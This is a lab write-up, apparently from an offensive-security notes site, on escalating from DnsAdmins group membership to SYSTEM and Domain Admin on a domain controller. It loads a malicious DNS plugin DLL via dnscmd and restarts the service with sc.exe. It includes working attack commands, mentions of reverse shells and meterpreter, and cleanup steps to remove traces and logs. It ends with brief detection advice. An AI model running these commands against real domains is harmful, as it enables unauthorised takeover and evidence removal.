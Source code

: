 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/t1055-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary when loading a plugin DLL. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine - code gets executed, shell gets spawned:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts \(or when the attacker restarts it\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode-tabs-item %}
{% endcode-tabs %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to correctly inject the DLL without crashing the dns service in my lab environment, I still decided to publish these notes, in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking as this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL with meterpreter payloads gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately \(or this is what I thought initially - as you will later see, it turns out I was simply using a wrong listener\):

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user `spotless` is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our `addDA.dll`, we see that the user `spotless` is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP from our spotless user, meaning that we have escalated privileges to DA:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

One could think about scripting/automating the after-attack cleanup and the DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

Once the DNS service is restored, we can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

### Bonus Reminder

It turns out that the reason the meterpreter payload failed because of a classic mistake of not using the right listener for staged/non-staged payloads - always double check your payloads and make sure that the listeners are able to handle the callbacks.

Once I set up the listener correctly, the meterpreter shell came back as expected - note that the dns.exe service still gets corrupted.

![](../../.gitbook/assets/peek-2018-11-12-21-58.gif)

## Observations

As a defender, one should considering monitoring for suspicious child processes \(rundll32, powershell, cmd, net, etc.\) spawned by the dns.exe on DCs:

![](../../.gitbook/assets/screenshot-from-2018-11-12-22-09-43.png)

Also, you may want to consider monitoring `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` value `ServerLevelPluginDll`, especially if it begins with string `\\` in the data field.

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

